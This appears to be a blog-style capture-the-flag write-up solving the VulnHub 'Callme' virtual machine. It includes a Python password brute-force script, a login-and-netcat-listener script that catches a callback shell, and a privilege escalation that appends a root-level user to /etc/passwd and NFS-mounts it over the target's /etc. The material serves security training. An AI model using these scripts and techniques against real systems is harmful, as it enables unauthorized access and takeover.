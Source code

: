 ```yaml
---
layout: post
title:  "Case Study : Callme / VulnHub"
---
```

You’ll find this vm here :  `https://www.vulnhub.com/entry/callme-1,615/`

## VulnHub - Callme

#### Port Scan

- Nmap found three open ports: `22`, `111` and `2323`
- For now let's focus on port `2323`

![image]( /assets/img/callme/1.PNG)

#### Finding correct username

- The server asking for username & password<
- After the login attempt with a random credentials, the message "user does not exist" appeared
- This will help us to identify the valid usernames

![image]( /assets/img/callme/2.PNG)

I tried common username like admin, and the message "user does not exist" not appeared.<br> So, `admin` is a valid username

![image]( /assets/img/callme/3.PNG)

####  Creating brute force script

{% highlight python %}
import socket
import time

print("Script by Alienum, vm by Foxlox")
with open('10-million-password-list-top-1000000.txt') as file:
 for password in file:
  username = b"admin"
  ip = "10.0.2.108"
  port = 2323
  s = socket.socket()
  s.connect((ip, port))
  print(s.recv(1024))
  print(s.recv(1024))
  s.send(username+b'\r\n')
  print(s.recv(1024))
  s.send(password.strip().encode()+b'\r\n')
  re = s.recv(1024)
  print(re)
  print(s.recv(1024))
  print(password.strip())
  time.sleep(1.2)
  if not "Wrong password for user admin" in str(re):
   print("FOXYFOXYFOXYFOXYFOXYFOXYFOXY")
   print(password)
   break
{% endhighlight %}

- After a few minutes the password found

![image]( /assets/img/callme/4.PNG)

Each time we successfully log in to the system, it returns a random number in words.<br>Let's understand what it means

![image]( /assets/img/callme/5.PNG)

#### Tcpdump to understand

<code>sudo tcpdump -XX -i eth0 src TARGET_IP</code>

We understand that every time we successfully connect to the server, it tries to connect to the port of our system that it had previously sent in a number with words. For example, if the server sends `ONE THOUSAND FOUR HUNDRED  TWELVE` it tries to connect to our system to port `1412`

![image]( /assets/img/callme/6.PNG)

#### Creating login & listener script

{% highlight python %}
from word2number import w2n
import socket
import time
import os
print("Script by Alienum, vm by Foxlox")

while True:
 username = b"admin"
 password = b"booboo"
 ip = "10.0.2.108"
 port = 2323
 s = socket.socket()
 s.connect((ip, port))
 print(s.recv(1024))
 print(s.recv(1024))
 s.send(username+b'\r\n')
 print(username)
 print(s.recv(1024))
 s.send(password+b'\r\n')
 print(password)
 re = s.recv(1024)
 print(re)
 w2n = w2n.word_to_num(re.decode().lower().strip())
 cmd = "nc -lvnp "+str(w2n)
 os.system(cmd)
{% endhighlight %}


- After running the script we have the shell


![image]( /assets/img/callme/7.PNG)


#### SSH Login, avoid wine shell

![image]( /assets/img/callme/8.PNG)

![image]( /assets/img/callme/9.PNG)

#### Searching fox's password

```
cat startup
find / -name "recallserver.exe" 2>/dev/null
```

![image]( /assets/img/callme/10.PNG)

- strings command not found so we need to download recallserver.exe locally

![image]( /assets/img/callme/11.PNG)

- We found the possible password for user fox, the possible password is `tutankamenFERILLI`

![image]( /assets/img/callme/12.PNG)

#### Privileges Escalation

![image]( /assets/img/callme/13.PNG)

- Writing a user to /etc/passwd locally

{% highlight python %}
openssl passwd -1
Password: alienum
Verifying - Password: alienum
1$dccSREO8$l8xVLythU9r4WQ1/4R1tq/
{% endhighlight %}

``` echo 'alien:$1$dccSREO8$l8xVLythU9r4WQ1/4R1tq/:0:0::/root:/bin/bash' >> /etc/passwd```

![image]( /assets/img/callme/14.PNG)

- In the target system

```
 sudo mount.nfs 10.0.2.106:/etc /etc
```

![image]( /assets/img/callme/15.PNG)

#### Rooted

![image]( /assets/img/callme/16.PNG)
